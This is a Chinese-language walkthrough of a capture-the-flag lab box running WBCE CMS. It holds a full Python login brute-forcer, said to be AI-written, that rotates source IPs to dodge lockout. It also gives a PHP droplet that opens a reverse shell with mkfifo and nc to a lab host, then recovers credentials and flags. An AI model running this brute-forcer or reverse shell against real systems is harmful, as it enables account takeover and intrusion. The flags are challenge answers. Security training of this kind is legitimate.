






# 信息收集

```
nmap -p-  192.168.100.27
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-18 01:47 EDT
Nmap scan report for 192.168.100.27
Host is up (0.00071s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:25:D5:A4 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 10.46 seconds
```

```
sudo dirsearch -u http://192.168.100.27 
[sudo] password for kali: 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Desktop/reports/http_192.168.100.27/_26-05-18_01-46-34.txt

Target: http://192.168.100.27/

                               
[01:46:36] 301 -  318B  - /account  ->  http://192.168.100.27/account/  
[01:46:36] 301 -    0B  - /account/  ->  login.php                      
[01:46:36] 302 -    0B  - /account/login.php  ->  http://ecbw.dsz/index.php 
[01:46:37] 301 -  316B  - /admin  ->  http://192.168.100.27/admin/      
[01:46:37] 302 -    0B  - /admin/  ->  http://ecbw.dsz/admin/start/index.php
[01:46:37] 301 -  322B  - /admin/login  ->  http://192.168.100.27/admin/login/
[01:46:37] 302 -    0B  - /admin/index.php  ->  http://ecbw.dsz/admin/start/index.php
[01:46:40] 200 -  136B  - /CHANGELOG.md                                 
[01:46:40] 200 -    0B  - /config.php                                   
[01:46:42] 200 -   34KB - /favicon.ico                                  
[01:46:43] 301 -    0B  - /include/  ->  ../index.php                   
[01:46:43] 301 -  318B  - /include  ->  http://192.168.100.27/include/
[01:46:43] 200 -    1KB - /INSTALL.md                                   
[01:46:43] 301 -  320B  - /languages  ->  http://192.168.100.27/languages/  
[01:46:43] 200 -   15KB - /LICENSE.md                                   
[01:46:44] 301 -  316B  - /media  ->  http://192.168.100.27/media/      
[01:46:44] 200 -  457B  - /media/                                       
[01:46:45] 301 -  318B  - /modules  ->  http://192.168.100.27/modules/  
[01:46:45] 301 -    0B  - /modules/  ->  ../index.php                   
[01:46:46] 301 -  316B  - /pages  ->  http://192.168.100.27/pages/      
[01:46:46] 301 -    0B  - /pages/  ->  ../index.php                     
[01:46:48] 200 -    2KB - /README.md                                    
[01:46:48] 301 -  317B  - /search  ->  http://192.168.100.27/search/    
[01:46:49] 403 -  279B  - /server-status                                
[01:46:49] 403 -  279B  - /server-status/                               
[01:46:50] 301 -  315B  - /temp  ->  http://192.168.100.27/temp/        
[01:46:50] 301 -  320B  - /templates  ->  http://192.168.100.27/templates/  
[01:46:50] 301 -    0B  - /templates/  ->  ../index.php                 
[01:46:50] 301 -    0B  - /temp/  ->  ../index.php                      
[01:46:51] 301 -  314B  - /var  ->  http://192.168.100.27/var/          
[01:46:51] 301 -    0B  - /var/  ->  ../index.php                       
[01:46:51] 200 -  466B  - /var/logs/       
```

# ecbw.dsz

发现跳转ecbw.dsz 添加域名 发现用户名 根据用户名生成字典



scdyh

有次数限制 用ip绕过

ai写个脚本

```
#!/usr/bin/env python3
"""Brute-force helper for WBCE CMS admin login pages.

Features:
- Fetches the login page each attempt and parses dynamic field names.
- Reads passwords from a file, defaulting to `./passwd.txt`.
- Supports rotating source IPs to stay under per-IP lockout thresholds.
- Treats only a redirect to `/admin/start/index.php` as success.
"""

from __future__ import annotations

import argparse
import http.client
import re
import sys
import urllib.parse
from pathlib import Path

LOGIN_PATH = "/admin/login/index.php"
SUCCESS_PATH = "/admin/start/index.php"
WARNING_MARKERS = (
    "warning.html",
    "too many login attempts",
    "generic_security_access",
)

def parse_args() -> argparse.Namespace:
    parser = argparse.ArgumentParser(description="WBCE CMS login brute-force helper")
    parser.add_argument(
        "--host",
        default="192.168.100.27",
        help="Target host, default: 192.168.100.27",
    )
    parser.add_argument(
        "--host-header",
        default="ecbw.dsz",
        help="Optional HTTP Host header, default: ecbw.dsz",
    )
    parser.add_argument("--port", type=int, default=80, help="Target port")
    parser.add_argument("--https", action="store_true", help="Use HTTPS")
    parser.add_argument(
        "--username",
        default="scdyh",
        help="Username to test, default: scdyh",
    )
    parser.add_argument(
        "--password-file",
        type=Path,
        default=Path("passwd.txt"),
        help="Password list file, one candidate per line (default: ./passwd.txt)",
    )
    parser.add_argument(
        "--source-ips-file",
        type=Path,
        help="Optional file with one source IP per line for rotation",
    )
    parser.add_argument(
        "--attempts-per-ip",
        type=int,
        default=3,
        help="How many tries to spend on one source IP before rotating",
    )
    parser.add_argument(
        "--timeout",
        type=int,
        default=8,
        help="HTTP timeout in seconds",
    )
    parser.add_argument(
        "--verbose",
        action="store_true",
        help="Print every attempt",
    )
    return parser.parse_args()

def load_passwords(args: argparse.Namespace) -> list[str]:
    if not args.password_file.exists():
        raise SystemExit(f"Password file not found: {args.password_file}")

    candidates: list[str] = []
    for line in args.password_file.read_text(encoding="utf-8", errors="ignore").splitlines():
        value = line.strip()
        if value and value not in candidates:
            candidates.append(value)

    if not candidates:
        raise SystemExit(f"No passwords loaded from: {args.password_file}")

    return candidates

def load_source_ips(path: Path | None) -> list[str]:
    if not path:
        return []
    ips = [line.strip() for line in path.read_text(encoding="utf-8", errors="ignore").splitlines()]
    return [ip for ip in ips if ip]

def make_connection(
    host: str,
    port: int,
    use_https: bool,
    timeout: int,
    source_ip: str | None,
) -> http.client.HTTPConnection:
    source_address = (source_ip, 0) if source_ip else None
    if use_https:
        return http.client.HTTPSConnection(
            host,
            port,
            timeout=timeout,
            source_address=source_address,
        )
    return http.client.HTTPConnection(
        host,
        port,
        timeout=timeout,
        source_address=source_address,
    )

def fetch_login_form(args: argparse.Namespace, source_ip: str | None) -> tuple[str, str, str]:
    conn = make_connection(args.host, args.port, args.https, args.timeout, source_ip)
    headers = {}
    if args.host_header:
        headers["Host"] = args.host_header
    conn.request("GET", LOGIN_PATH, headers=headers)
    response = conn.getresponse()
    status = response.status
    location = response.getheader("Location") or ""
    body = response.read().decode("utf-8", "ignore")
    cookie = (response.getheader("Set-Cookie") or "").split(";", 1)[0]

    if "warning.html" in location.lower():
        raise RuntimeError(
            f"Source IP is blocked by WBCE login throttling "
            f"(http_status={status}, location={location})"
        )

    user_field = re.search(r'name="username_fieldname"\s+value="([^"]+)"', body)
    pass_field = re.search(r'name="password_fieldname"\s+value="([^"]+)"', body)
    if not user_field or not pass_field:
        title = re.search(r"<title>(.*?)</title>", body, re.IGNORECASE | re.DOTALL)
        page_title = title.group(1).strip() if title else "no-title"
        lowered = body.lower()
        reason = "unexpected-login-page"
        if "warning" in lowered or "too many login attempts" in lowered:
            reason = "ip-blocked-or-warning-page"
        elif "loginname or password incorrect" in lowered:
            reason = "received-post-error-page-instead-of-clean-form"
        elif "not found" in lowered:
            reason = "wrong-host-or-path"
        snippet = re.sub(r"\s+", " ", body[:220]).strip()
        raise RuntimeError(
            f"Could not parse dynamic login field names "
            f"(http_status={status}, location={location or '-'}, reason={reason}, "
            f"title={page_title}, snippet={snippet})"
        )
    return cookie, user_field.group(1), pass_field.group(1)

def try_password(
    args: argparse.Namespace,
    source_ip: str | None,
    username: str,
    password: str,
) -> tuple[str, str]:
    cookie, user_field, pass_field = fetch_login_form(args, source_ip)

    payload = urllib.parse.urlencode(
        {
            "url": "",
            "username_fieldname": user_field,
            "password_fieldname": pass_field,
            user_field: username,
            pass_field: password,
            "submit": "Login",
        }
    )
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie": cookie,
    }
    if args.host_header:
        headers["Host"] = args.host_header
    conn = make_connection(args.host, args.port, args.https, args.timeout, source_ip)
    conn.request("POST", LOGIN_PATH, payload, headers)
    response = conn.getresponse()
    body = response.read().decode("utf-8", "ignore")
    location = response.getheader("Location") or ""

    if SUCCESS_PATH in location:
        return "success", location

    lowered = body.lower()
    if any(marker in location.lower() or marker in lowered for marker in WARNING_MARKERS):
        return "blocked", location or "warning-page"

    return "failed", location

def pick_source_ip(
    source_ips: list[str],
    index: int,
    attempts_per_ip: int,
) -> str | None:
    if not source_ips:
        return None
    ip_index = index // attempts_per_ip
    if ip_index >= len(source_ips):
        raise RuntimeError("Ran out of source IPs before exhausting the password list")
    return source_ips[ip_index]

def main() -> int:
    args = parse_args()
    passwords = load_passwords(args)

    source_ips = load_source_ips(args.source_ips_file)
    print(
        f"[+] Loaded {len(passwords)} passwords"
        + (f" across {len(source_ips)} source IPs" if source_ips else "")
    )

    for index, password in enumerate(passwords):
        source_ip = pick_source_ip(source_ips, index, args.attempts_per_ip)
        try:
            status, detail = try_password(args, source_ip, args.username, password)
        except Exception as exc:  # noqa: BLE001
            print(f"[!] {password} -> error: {exc}")
            continue

        if args.verbose or status != "failed":
            src = source_ip or "default-route"
            print(f"[*] {src} :: {password} -> {status} {detail}")

        if status == "success":
            print(f"[+] HIT {args.username}:{password}")
            return 0

    print("[-] No valid password found")
    return 1

if __name__ == "__main__":
    sys.exit(main())
```

爆破出密码scdyh2026



# 反弹shell

WBCE CMS 1.6.4 的 Droplets 模块允许管理员在后台创建可执行的 PHP 片段。
页面正文中只要插入形如:

[[droplet_name]]

前台渲染该页面时就会执行对应 droplet 代码。

也就是说，这条链本质上是:

登录后台



```
exec('rm -f /tmp/.p; mkfifo /tmp/.p; cat /tmp/.p | /bin/sh -i 2>&1 | /usr/bin/busybox nc 192.168.100.22 6666 > /tmp/.p &'); 
return "OK";
```



```
[[shell]]
```

在配置文件中找到了个密码 尝试利用成功

# config.php

```
www-data@ecbw:/var/www/ecbw.dsz$ cat config.php 
<?php

define('DB_TYPE', 'mysqli');
define('DB_HOST', 'localhost');
define('DB_NAME', 'wbce_db');
define('DB_USERNAME', 'wbce_user');
define('DB_PASSWORD', 'wbce_user');
define('DB_CHARSET', 'utf8');
define('TABLE_PREFIX', 'wbce_');

define('WB_URL', 'http://ecbw.dsz'); // no leading/trailing slash or backslash.
define('ADMIN_DIRECTORY', 'admin'); // no leading/trailing slash or backslash. A simple directory name only.

require_once(dirname(__FILE__).'/framework/initialize.php');
// end of file -------------
```

# fly

```
wbce_user
```



```
flag{user-a74ed22129e22096e8cae79febdb8376}
```

# root

```
sudo -l
Matching Defaults entries for fly on ecbw:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fly may run the following commands on ecbw:
    (ALL) NOPASSWD: /usr/bin/ls
```

找了很久没找到

尝试密码复用

```
scdyh2026
```



```
flag{root-cf276b11e1e808fac62d5763674b4918}
```
